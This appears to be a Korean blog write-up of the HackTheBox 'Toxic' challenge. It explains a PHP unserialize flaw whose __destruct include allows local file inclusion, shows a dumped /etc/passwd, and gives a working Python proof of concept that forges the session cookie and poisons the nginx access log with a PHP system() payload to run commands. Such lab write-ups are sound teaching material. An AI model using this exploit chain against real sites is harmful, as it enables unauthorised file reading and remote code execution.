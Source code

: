 ```yaml
---
title: '[Hackthebox] Toxic'
author: hoppi
date: 2022-12-28 14:51:00 + 0000
categories: [Web]
tags: [hackthebox, serialization, lfi, log_poisoning, php]
---
```


**키워드: PHP, serialization, LFI, Log Poisoning**  
  
![describtion](../../../assets/img/2022-12-28/2022-12-28-description.png){: w="600" h="300" }  

# 코드 분석
***
`serialize` 함수와 `unserialize` 함수를 사용한다.  
```php
<?php
spl_autoload_register(function ($name){
    if (preg_match('/Model$/', $name))
    {
        $name = "models/${name}";
    }
    include_once "${name}.php";
});

if (empty($_COOKIE['PHPSESSID']))
{
    $page = new PageModel;
    $page->file = '/www/index.html';

    setcookie(
        'PHPSESSID', 
        base64_encode(serialize($page)), 
        time()+60*60*24, 
        '/'
    );
} 

$cookie = base64_decode($_COOKIE['PHPSESSID']);
unserialize($cookie);

```
{: file="index.php"}  

<br/>
`PageModel` 클래스는 `__destruct` 함수를 가지고 있는데 객체가 소멸될 때 실행되는 [magic method](https://lornajane.net/posts/2012/9-magic-methods-in-php)이다.  
```php
<?php
class PageModel
{
    public $file;

    public function __destruct() 
    {
        include($this->file);
    }
}
```
{: file="PageModel.php"}  

<br/>

# 취약점
***

## PHP Serialization Vulnerability & LFI
***
`__destruct` 함수에서 `include` 함수를 사용하고 있기 때문에 오브젝트(인스턴스화된 객체)의 값을 변조시켜서 다른 파일을 읽을 수 있다. 페이지 내 쿠키 값을 디코딩하면 다음과 같다.  
```
O:9:"PageModel":1:{s:4:"file";s:15:"/www/index.html";}
```
{: file="Decoded object"}

<br/>
파일 경로를 `/etc/passwd`로 조작해주고 쿠키값을 변조 시키면 다음과 같이 파일을 읽을 수 있다.
```
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
www:x:1000:1000:1000:/home/www:/bin/sh
nginx:x:100:101:nginx:/var/lib/nginx:/sbin/nologin
```
{: file="/etc/passwd"}

## Log Poisoning
***
하지만 `flag` 파일이 읽혀지지 않았다. 뒤에 붙는 어떤 문자열이 있을 것이라고 추측됐다. `entrypoint.sh`에서 이 부분을 찾을 수 있었다.
```sh
#!/bin/ash

# Secure entrypoint
chmod 600 /entrypoint.sh

# Generate random flag filename
mv /flag /flag_`cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 5 | head -n 1`

exec "$@"
```
{: file="entrypoint.sh"}  

<br/>
<u>결국에는 파일이름을 확인해야하고 명령어 실행이 필수적이기 때문에</u> `Log Poisoning`을 위한 로그파일이 반드시 존재한다고 생각했다.  

<br/>

# Exploit
***
먼저 도커파일에도 있는 `nginx.conf` 파일을 읽어보면 로그파일에 대한 경로가 나온다.

```
user www;
pid /run/nginx.pid;
error_log /dev/stderr info;

events {
    worker_connections 1024;
}

http {
    server_tokens off;
    log_format docker '$remote_addr $remote_user $status "$request" "$http_referer" "$http_user_agent" ';
    access_log /var/log/nginx/access.log docker;

    charset utf-8;
    keepalive_timeout 20s;
    sendfile on;
    tcp_nopush on;
    client_max_body_size 1M;

    include  /etc/nginx/mime.types;

    server {
        listen 80;
        server_name _;

        index index.php;
        root /www;

        location / {
            try_files $uri $uri/ /index.php?$query_string;
            location ~ \.php$ {
                try_files $uri =404;
                fastcgi_pass unix:/run/php-fpm.sock;
                fastcgi_index index.php;
                fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
                include fastcgi_params;
            }
        }
    }
}
```
{: file="nginx.conf"}  

<br/>
`/var/log/nginx/access.log` 파일의 내용을 확인해보면 사용자가 조작할 수 있는 부분인 `User-Agent` 값이 나온다.  
```
142.93.37.215 - 200 "GET / HTTP/1.1" "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36" 
142.93.37.215 - 200 "GET /favicon.ico HTTP/1.1" "http://142.93.37.215:32639/" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36" 
142.93.37.215 - 200 "GET / HTTP/1.1" "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36" 
142.93.37.215 - 200 "GET /favicon.ico HTTP/1.1" "http://142.93.37.215:32639/" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36" 
142.93.37.215 - 200 "GET / HTTP/1.1" "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36"
```
{: file="access.log"}  

<br/>
User-Agent 값을 `<?php system('ls /');?>`로 바꾸고 로그 파일을 읽는 과정에서 `include` 함수로 인해 php 코드가 실행되고 `flag` 파일의 정확한 이름을 볼 수 있을 것이다.  
```python
from requests import get
from base64 import b64encode

info = lambda x: print(f'[+] {x}')
URL = 'http://142.93.37.215:32639'

# file_name = '/flag_fB4Dv'
file_name = '/var/log/nginx/access.log'
cookie = b64encode(f'O:9:"PageModel":1:{% raw %}{{s:4:"file";s:{len(file_name)}:"{file_name}";}}{% endraw %}'.encode('utf-8')).decode('utf-8')

res = get(f'{URL}/', headers={"User-Agent": "<?php system('ls /'); ?>"},
          cookies={'PHPSESSID': f'{cookie}'})
print(res.text)
``` 
{: file="poc.py"}  

<br/>
![ls](../../../assets/img/2022-12-28/2022-12-28-ls.png){: w="600" h="300" }
![flag](../../../assets/img/2022-12-28/2022-12-28-flag.png){: w="600" h="300" }  

<br/>
분명 이렇게 하는게 맞는데 로그파일에 안찍혀서 롸업을 찾아봤는데 풀이가 나랑 똑같아서 엥? 하다가 다시 파일 확인해보니까 찍혀있었다 ㅇㅅㅇ… 이것 때문에 30분 날렸다.  

<br/>
# Reference
***
- [https://velog.io/@woounnan/WEB-PHP-Serialization](https://velog.io/@woounnan/WEB-PHP-Serialization)
